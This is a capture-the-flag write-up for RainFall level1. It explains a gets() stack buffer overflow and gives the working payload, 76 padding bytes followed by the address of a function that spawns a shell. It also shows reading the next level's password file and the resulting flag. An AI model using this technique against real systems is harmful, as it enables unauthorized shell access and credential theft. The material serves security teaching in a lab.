 # Level1

## Analysis

Another executable, [level1](./level1).

When we execute it, it will open a prompt where we can type stuff:

```bash
level1@RainFall:~$ ./level1
asddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd
Segmentation fault (core dumped)
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
asdasdalsd
level1@RainFall:~$
```

First thing we notice is that it segfaults when typing too much characters.

Precisely after 76 characters as shown next:

```bash
~/Documents/42/rainfall/level1/resources (main) » python -c 'print "a"*76' | ./level1                                                                                                                                                                                                                                                         ckurt@z1r6p3
[1]    145781 done                              python -c 'print "a"*76' | 
       145782 segmentation fault (core dumped)  ./level1
```

We also decompiled the program [here](./level1_decomp.c) and noticed several things:

- The main is mostly empty

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    void buf;
    return gets(&buf);
}
```
But it returns the result of `gets()`.

- There is also another function outside of the main:

```c
int32_t run()
{
    fwrite("Good... Wait what?\n", 1, 0x13, stdout);
    return system("/bin/sh");
}
```

## Exploit

So if we take a look at an `objdump` of [level1](./level1), we get the output you can find at [level1_dump](./level1_dump).

The part we must take a look at is the address of `run()` which will spawn us a shell.

```
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

Now that we have this wonderful address `08048444`, we will deep into how we can jump there!

Earlier, we used Python to print a precise number of characters, which was the size of the buffer in which the program stores our input. And it's 76 chars long.

Now the other thing which we will have to explain is how the stack is organized:

## Stack explained

When running a program, the system will allocate space for its needs in a specific order:
```
|------|
|kernel|
|------|
|stack |
|------|
|   I  |
|   V  |
|      |
|   ^  |
|   I  |
|------|
| heap |
|------|
| data |
|------|
| text |
|------|
```

- Kernel: it's where the command line parameters are stored
- Stack: holds local variables for each functions, when a new function is called, the arguments are pushed downward
- Heap: where allocated data is stored, huge data such as files etc.
- Data: where uninitialized and inizialized data are stored
- Text: read only area where the actual code is stored

Now, when a function is called, such as `gets()`, arguments are pushed onto the stack but so are the return address (where the pointer should return when the function is done) and the base pointer.

And then there is our buffer, which is pushed at the end.

Now, if we fill our buffer, which is on the stack, to the brim and over, we will overflow on the return address! Why? Because when a function is called, it will push the function itself on the stack, then the parameters, then the return address and finally the base pointer to look something like this:

```
       HIGH
|----------------|   ----- Frame start
|                |
|    ARGUMENTS   |
|                |
|----------------|
|     RET        |
|----------------|
|     EBP        |   --> points to previous / main's frame
|----------------|
|                |
|  LOCAL VAR     |
|     BUFFER     |
|                |   buffer would fill from bottom to up
|----------------|   ---- Frame end (ESP)
       LOW

Previous frames would be here
```

Now that we have this beautiful example, we can see why going higher than the buffer would cause issues...

If we override the return address, the function will end and jump to the end of our payload which replaced the base return address!

If this explication doesn't work for you, here's the [video](https://www.youtube.com/watch?v=1S0aBV-Waeo&ab_channel=Computerphile) that helped me through Dr_quine and this level!

## What's next

Now that we understand how, let's craft our payload!

We can use the same command we used to find our buffer limit earlier, Python our savior today:

`python -c 'print "a"*76' | ./level1`

That will fill the buffer part and the bp part! So the next part will be on the return adress, we can write another address such as another function? And it will return to this function instead of the main, such as `08048444`.

Now we will use python to do so, careful about the endian to write the address!

Which should be:

`\x44\x84\x04\x08`

And the final part of our craft will result in:

```bash
level1@RainFall:~$ python2 -c 'print "a"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

Uh? Weird, it doesn't keep the shell open... Since the `/bin/sh` will read the input passed previously and read EOF which will close the prompt.

More precisions about this specific issue [here](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)

So there is a small trick we can use using `-` which is an alias to `/dev/stdin`. In this case it will be used to concat our payload and stdin so that the shell doesn't close!

```bash
level1@RainFall:~$ python2 -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload.txt
level1@RainFall:~$ cat /tmp/payload.txt - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Flag

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77